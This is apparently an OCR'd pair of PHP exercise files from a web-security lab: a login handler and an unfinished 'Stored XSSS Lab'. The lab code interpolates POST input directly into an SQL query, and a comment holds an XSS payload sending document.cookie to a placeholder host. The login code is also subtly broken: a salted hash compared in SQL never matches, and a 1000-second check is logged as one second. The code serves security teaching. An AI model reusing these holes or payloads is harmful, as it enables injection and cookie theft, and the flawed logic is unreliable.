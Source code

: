 ```
global $config;
/* This is the code file you need to modify */
/* App::getPdo() returns a valid PDO instance */
/* App::getMysqli() returns a valid mysqli instance */

if( isset( $_REQUEST['Login'] ) ) {
    $time_current = time();
    // Attacker can just refresh cookies, thereby starting a new session
    // however, this is another layer of security, and is worthy of consideration
    // Also create a client profile based upon external factors such as the IP address, user agent, etc.
    $time_stored  = $_SESSION['time'] ?? $time_current;
    // add a safety check to see if login requests are too frequent
    if (($time_current - $time_stored) < 1000) {
        error_log($_SERVER['REQUEST_URL'] . ':' . $_SERVER['REMOTE_ADDR'] . ': Sequential request less than 1 second detected');
    } else {
        $username = strip_tags($_REQUEST['username'] ?? '');
        $pass = password_hash($_REQUEST['password'], PASSWORD_DEFAULT);
        try{
            $pdo    = App::getPdo($config);
            $stmt   = $pdo->prepare("SELECT * FROM users WHERE user=? AND password=?");
            $stmt->execute([$username, $pass]);
            $result = $stmt->fetch(PDO::FETCH_ASSOC);
        }catch(Exception $e){
            error_log(__FILE__ . ':' . $e->getMessage());
            // redirect to a safe page
            // use randomization so the result differs each time
        }
        if( $result && count($result) ) {
            // Login Successful
            App::$html .= "<p>Welcome to the password protected area " . $result['user'] . "</p>";
            App::$html .= '<img src="hackable/users/' . $result['avatar'] . '" />';
        } else {
            //Login failed
            App::$html .= "<pre><br>Username and/or password incorrect.</pre>";
        }
    }
    $_SESSION['time'] = $time_current;
}
```
Stored XSSS Lab
* This isn't not yet complete:
```
<?php
/* This is the code file you need to modify */
global $config;
use SecurityApp\App;
if (isset($_POST['type'])) {
    $type = $_POST['type'] ?? 'orange';
    $stmt = App::getPdo($config)->query("SELECT * FROM flowers WHERE type = '$type'");
    $result = $stmt->fetch(PDO::FETCH_ASSOC);
}

$name   = strip_tags($result['name'] ?? 'orange');
$folder = strip_tags($result['folder'] ?? '/images/');

// If "pink" is selected, hacked code ends up looking like this:
//$folder = 'http://sandbox/hack_me.php?data=<script>document.cookie</script>" style="width:1px;height:1px;" /><img src="';
//$name   = 'http://sandbox.com/images/hacked';

$ok = 0;
```